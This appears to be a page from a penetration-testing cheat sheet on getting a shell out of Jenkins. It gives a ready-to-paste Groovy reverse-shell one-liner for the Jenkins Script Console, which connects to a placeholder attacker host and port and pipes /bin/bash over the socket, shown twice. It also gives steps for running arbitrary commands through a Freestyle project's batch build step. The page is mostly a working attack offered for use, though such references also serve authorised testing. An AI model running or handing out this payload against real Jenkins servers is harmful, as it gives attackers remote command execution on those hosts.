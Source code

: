 ```yaml
---
title: Jenkins
parent: Shell (Reverse/Others)
layout: default
nav_order: 12
---
```


Manage Jenkins -> Script Console

Change host, port, cmd (if windows change /bin/bash to cmd)


```
String host="host"; int port=port;String cmd="/bin/bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Backup:
```
String host="IP";

int port=PORT;

String cmd="/bin/bash";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Alternative

1. Go to New Item-> Freestyle Project -> Name it anything you want.

2. Go to Build (or Build Triggers)-> under Build Section, select Execute Windows Batch Command from dropdown.

3. When command box appear can type in commands already like whoami, curl, powershell etc.

4. Click save, then click Build Now on the left.

5. On left side bottom, a new Build History will appear. Click on that (usually #1) and click Console Output on the left to see the output.
